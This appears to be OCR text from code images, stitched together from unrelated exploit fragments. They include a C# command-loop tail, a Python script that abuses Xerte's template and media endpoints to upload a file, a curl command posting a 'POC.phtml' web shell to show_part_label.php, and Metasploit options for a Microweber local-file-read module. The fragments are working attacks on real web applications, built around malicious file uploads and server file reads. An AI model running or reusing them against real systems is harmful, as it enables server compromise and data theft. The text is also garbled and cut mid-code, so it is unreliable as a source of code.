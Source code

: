             Console.WriteLine(responseCMD);
            Console.ReadLine();

        }

        catch (Exception e)
        {
            Console.WriteLine(e);
            Console.ReadLine();

            //Environment.Exit(e.HResult);
        }

        goto FORCERESTART;
    }
}
 # Use a default template
data = {
    'tutorialid': 'Nottingham',
    'templatename': 'Nottingham',
    'tutorialname': 'exploit',
    'folder_id': ''
}

# Create a new project in order to find the install path
template_id = session.post(xerte_base_url + '/website_code/php/templates/new_template.php', data=data)

# Find template ID
data = {
    'template_id': re.findall('(\d+)', template_id.text)[0]
}

# Find the install path:
install_path = session.post(xerte_base_url + '/website_code/php/properties/media_and_quota_template.php', data=data)
install_path = re.findall('mediapath" value="(.+?)"', install_path.text)[0]

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'nl,en-US;q=0.7,en;q=0.3',
    'Content-Type': 'multipart/form-data; boundary=---------------------------170331411929658976061651588978',
   }

# index.inc file
data = \
'''-----------------------------170331411929658976061651588978
curl -i -s -X POST -F "logo_file=@POC.phtml" "http://$host/show_part_label.php" | grep -o -P '(?<=value="data/media/labels/).*(?=" > <p)'
register_options(
  [
    OptString.new('TARGETURI', [true, 'The base path for Microweber', '/']),
    OptString.new('USERNAME', [true, 'The admin\'s username for Microweber']),
    OptString.new('PASSWORD', [true, 'The admin\'s password for Microweber']),
    OptString.new('LOCAL_FILE_PATH', [true, 'The path of the local file.']),
    OptBool.new('DEFANGED_MODE', [true, 'Run in defanged mode', true])
  ]
)